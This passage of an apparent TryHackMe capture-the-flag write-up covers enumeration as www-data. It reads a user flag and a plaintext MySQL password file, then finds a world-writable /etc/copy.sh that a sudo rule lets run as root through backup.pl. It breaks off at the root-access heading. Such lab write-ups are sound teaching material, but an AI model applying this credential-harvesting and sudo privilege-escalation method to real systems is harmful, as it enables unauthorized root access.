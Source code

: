 2. We get in as `www-data` user. Let's manually enumerate the system. Few places to look into
	1. **/home** --> we can read the contents in the `itguy` directory. We thus obtain the *user.txt* flag.
	```bash
	www-data@THM-Chal:/home$ ls
	itguy
	www-data@THM-Chal:/home$ cd itguy/
	www-data@THM-Chal:/home/itguy$ ls
	Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
	Documents  Music      Public    Videos     examples.desktop  user.txt
	www-data@THM-Chal:/home/itguy$ cat user.txt 
	THM{********************************}
	www-data@THM-Chal:/home/itguy$ cat mysql_login.txt 
	rice:randompass
	www-data@THM-Chal:/home/itguy$ cat backup.pl 
	#!/usr/bin/perl

	system("sh", "/etc/copy.sh");
	```
	2. We also find that the `backup.pl` is owned by **root:root** but anyone can execute it. It is executing a shell file. Let's find a way to manipulate it and execute our commands as root.

	```bash
	www-data@THM-Chal:/home/itguy$ ls -la
	total 148
	drwxr-xr-x 18 itguy itguy 4096 Nov 30  2019 .
	drwxr-xr-x  3 root  root  4096 Nov 29  2019 ..
	-rw-------  1 itguy itguy 1630 Nov 30  2019 .ICEauthority
	-rw-------  1 itguy itguy   53 Nov 30  2019 .Xauthority
	..........................................................................................
	-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
	..........................................................................................
	-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
	-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
	```
	
	3. Even better. `/etc/copy.sh` is a file owned by by **root:root** but anyone can write to it and execute it. We can directly run it as sudo without any password as defined in `sudo -l`.
	
	```bash
	www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh 
	-rw-r--rwx 1 root root 81 Nov 29  2019 copy.sh
	www-data@THM-Chal:/home/itguy$ sudo -l
	Matching Defaults entries for www-data on THM-Chal:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User www-data may run the following commands on THM-Chal:
		(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
	```

## ROOT ACCESS
